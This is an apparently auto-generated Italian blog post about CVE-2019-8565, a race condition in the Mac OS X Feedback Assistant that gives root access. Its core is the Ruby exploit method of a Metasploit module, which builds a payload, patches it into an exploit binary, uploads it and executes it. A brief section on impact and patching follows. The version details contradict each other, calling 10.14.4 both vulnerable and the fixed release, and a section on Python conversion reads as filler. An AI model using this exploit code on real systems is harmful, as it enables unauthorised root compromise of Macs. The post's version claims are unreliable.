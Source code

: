 ```yaml
---
layout: post
title: 'feedback_assistant_root.rb' 
date: 2024-09-08
categories: [security, exploits]
---
```


# Exploit di Sicurezza su Mac OS X: Condizione di Gara nel Feedback Assistant
## Introduzione
Questo articolo descrive un exploit di sicurezza riguardante una condizione di gara nel Feedback Assistant di Mac OS X. Il codice vulnerabile è presente in tutte le versioni di Mac OS X fino alla 10.14.4.

## Dettagli dell'Exploit
Questo exploit sfrutta una condizione di gara nel Feedback Assistant di Mac OS X. Una condizione di gara si verifica quando due o più thread accedono contemporaneamente a una risorsa condivisa, in questo caso il Feedback Assistant, portando a un comportamento imprevisto del sistema. In condizioni specifiche, questo può consentire l'esecuzione di codice arbitrario con privilegi di root. L'exploit è stato scoperto da CodeColorist e timwr e ha ricevuto il codice CVE-2019-8565.

## Esempio di Payload
L'exploit è stato sviluppato come modulo di Metasploit e l'esempio di payload è scritto in Ruby. L'exploit verifica prima di tutto la versione del sistema operativo. Se è vulnerabile, verifica se la sessione attuale ha privilegi di root e se il directory specificato è scrivibile. In base all'architettura del sistema target, genera un payload appropriato e lo carica nel sistema target.

```ruby
def exploit
  if check != CheckCode::Appears
    fail_with Failure::NotVulnerable, 'Target is not vulnerable'
  end

  if is_root?
    fail_with Failure::BadConfig, 'Session already has root privileges'
  end

  unless writable? datastore['WritableDir']
    fail_with Failure::BadConfig, "#{datastore['WritableDir']} is not writable"
  end

  case target['Arch']
  when ARCH_X64
    payload_file = "#{datastore['WritableDir']}/.#{Rex::Text::rand_text_alpha_lower(6..12)}"
    binary_payload = Msf::Util::EXE.to_osx_x64_macho(framework, payload.encoded)
    upload_executable_file(payload_file, binary_payload)
    root_cmd = payload_file
  when ARCH_PYTHON
    root_cmd = "echo \"#{payload.encoded}\" | python"
  else
    root_cmd = payload.encoded
  end
  root_cmd = root_cmd + " & \\0"
  if root_cmd.length > 1024
    fail_with Failure::PayloadFailed, "Payload size (#{root_cmd.length}) exceeds space in payload placeholder"
  end

  exploit_data = File.binread(File.join(Msf::Config.data_directory, "exploits", "CVE-2019-8565", "exploit" ))
  placeholder_index = exploit_data.index('ROOT_PAYLOAD_PLACEHOLDER')
  exploit_data[placeholder_index, root_cmd.length] = root_cmd

  exploit_file = "#{datastore['WritableDir']}/.#{Rex::Text::rand_text_alpha_lower(6..12)}"
  upload_executable_file(exploit_file, exploit_data)

  print_status("Executing exploit '#{exploit_file}'")
  result = cmd_exec(exploit_file)
  print_status("Exploit result:\\n#{result}")
end
```

## Conversione in Python del Payload
La conversione del payload di questo exploit in Python non è possibile in quanto sfrutta la funzionalità di Metasploit per la generazione di un payload in formato eseguibile per Mac OS X, cosa che non è facilmente replicabile in Python.

## Impatto dell'Exploit
Se sfruttato con successo, questo exploit può consentire a un attaccante di eseguire codice arbitrario con privilegi di root sul sistema target. Ciò può portare al furto di dati sensibili, alla compromissione dell'integrità del sistema e alla possibilità di lanciare ulteriori attacchi.

## Mitigazioni e Soluzioni
Apple ha rilasciato un aggiornamento di sicurezza (disponibile a partire dalla versione 10.14.4 di Mac OS X) che risolve questa vulnerabilità. Gli utenti sono fortemente incoraggiati ad aggiornare il loro sistema operativo alla versione più recente possibile.

## Conclusione
Mantenere i sistemi operativi e le applicazioni aggiornate è fondamentale per prevenire sfruttamenti di questo tipo. Questo exploit evidenzia l'importanza di gestire correttamente le condizioni di gara, specialmente quando si tratta di risorse che possono essere sfruttate per ottenere privilegi elevati.